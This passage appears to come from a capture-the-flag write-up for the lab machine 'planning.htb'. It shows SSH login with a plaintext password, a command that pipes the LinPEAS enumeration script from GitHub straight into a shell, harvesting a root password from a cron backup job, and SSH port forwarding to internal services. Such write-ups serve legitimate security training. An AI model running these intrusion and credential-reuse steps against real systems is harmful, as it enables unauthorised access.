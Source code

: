 ### 4. SSH Access as Enzo

```bash
ssh enzo@planning.htb
# Password: RioTecRANDEntANT!
```

🚩 **User Flag:** Located in `/home/enzo/user.txt`

### 5. Privilege Escalation Enumeration

```bash
# Run LinPEAS for comprehensive enumeration
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

**Key Discovery:**
```bash
# Modified files in last 5 minutes
/opt/crontabs/crontab.db   # Interesting cron database
```

### 6. Cron Database Analysis

```bash
cat /opt/crontabs/crontab.db
```

**Critical Information Found:**
```json
{
  "name":"Grafana backup",
  "command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz",
  "schedule":"@daily"
}
```

**Extracted Credentials:** `root:P4ssw0rdS0pRi0T3c`

### 7. Internal Port Discovery

```bash
# Check active ports
ss -tlnp
```

**Internal Services Found:**
- `127.0.0.1:8000` - Cron management interface
- `127.0.0.1:3000` - Grafana (internal)
- `127.0.0.1:3306` - MySQL

### 8. Port Forwarding and Cron Management Access

```bash
# Forward port 8000 to local machine
ssh -L 8000:localhost:8000 enzo@planning.htb
```
